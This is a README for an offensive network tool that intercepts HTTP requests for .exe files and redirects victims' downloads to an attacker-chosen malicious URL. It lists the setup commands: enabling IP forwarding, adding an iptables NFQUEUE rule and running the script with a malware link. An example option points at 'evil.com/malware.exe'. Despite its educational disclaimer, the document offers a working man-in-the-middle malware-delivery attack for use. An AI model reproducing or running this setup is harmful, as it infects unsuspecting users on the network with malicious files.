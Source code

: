 # :boom: HTTP File Replacement Tool

This tool intercepts HTTP requests for `.exe` files and replaces the download link with a malicious file URL of your choice.  

---

## ⚠ Disclaimer
This project is for **educational and penetration testing purposes only**.  
Do **NOT** use this tool on networks you do not own or have explicit permission to test.  
Unauthorized use is **illegal** and punishable by law.

---

## 🛠 Installation

1. Clone the repository:
```bash
git clone https://github.com/Nozarhi-1/download-changer.git
cd download-changer
```
---
## 📌 Features
    - Intercepts HTTP requests for `.exe` files
    - Redirects downloads to a malicious URL
    - Allows specifying the malicious file URL via **command-line arguments**
    - Can be adapted to replace other file types (e.g., `.zip`, `.pdf`)

---

## 🚀 Usage:

1. Enable IP forwarding:


        echo 1 > /proc/sys/net/ipv4/ip_forward

2. Set up iptables rules:

        sudo iptables -I FORWARD -j NFQUEUE --queue-num 0

3. Run the script:

        sudo python file_replace.py -u "https://www.example/malicious.exe"

4. Restore firewall rules after finishing:

        sudo iptables --flush

---

📂 Command-Line Options

| Option         | Description                                 | Example                             |
| -------------- | ------------------------------------------- | ----------------------------------- |
| `-u` / `--url` | Malicious file URL to redirect downloads to | `-u "https://evil.com/malware.exe"` |




   
    
